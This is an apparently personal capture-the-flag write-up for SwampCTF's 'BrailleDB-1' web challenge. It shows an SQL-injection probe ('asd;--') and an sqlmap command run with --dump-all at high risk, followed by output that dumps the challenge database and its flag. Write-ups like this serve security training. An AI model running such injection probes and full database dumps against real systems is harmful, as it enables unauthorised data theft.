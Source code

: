 # BrailleDB-1 

## Overview:

Category: Web

## Description

In order to help our university comply with The Americans with Disabilities Act we made an ASCII to braille webservice, now we just hope the faculty doesn't print out their braille on flat pieces of paper....

`http://chals.swampctf.com:64550`

## Approach

Opening the website we have a word to braille converster. Sending an item in the textbox `asd;--`, this is the request:
```
POST /api/braille.php HTTP/1.1
Host: chals.swampctf.com:64550
Content-Length: 39
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://chals.swampctf.com:64550
Referer: http://chals.swampctf.com:64550/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
searchText=asd;--
```

Now I do not have the response as I didn't take a screenshot of it during the competition but the server is now down and I cannot retrieve it, but it was a `200` response.

## Attack

Taking this request as input for sqlmap, as such:
```
└─$ sqlmap -r request.txt --batch --dump-all --risk=3 
```

And as a result:

```
[12:58:34] [INFO] table 'public.feedback' dumped to CSV file '/home/anthony/.local/share/sqlmap/output/chals.swampctf.com/dump/public/feedback.csv'                                                                                                                                 
[12:58:34] [INFO] fetching columns for table 'flag' in database 'public'
[12:58:34] [INFO] retrieved: 'flag'
[12:58:34] [INFO] retrieved: 'text'
[12:58:34] [INFO] retrieved: 'id'
[12:58:34] [INFO] retrieved: 'int4'
[12:58:34] [INFO] fetching entries for table 'flag' in database 'public'
[12:58:34] [INFO] retrieved: 'swampCTF{Un10n_A11_Th3_W4yyy!}'
[12:58:34] [INFO] retrieved: '1'
Database: public
Table: flag
[1 entry]
+----+--------------------------------+
| id | flag                           |
+----+--------------------------------+
| 1  | swampCTF{Un10n_A11_Th3_W4yyy!} |
+----+--------------------------------+

[12:58:34] [INFO] table 'public.flag' dumped to CSV file '/home/anthony/.local/share/sqlmap/output/chals.swampctf.com/dump/public/flag.csv'
[12:58:34] [WARNING] HTTP error codes detected during run:
400 (Bad Request) - 59 times
[12:58:34] [INFO] fetched data logged to text files under '/home/anthony/.local/share/sqlmap/output/chals.swampctf.com'

[*] ending @ 12:58:34 /2024-04-06/
```


## Flag

swampCTF{Un10n_A11_Th3_W4yyy!}

# References
1. https://sqlmap.org/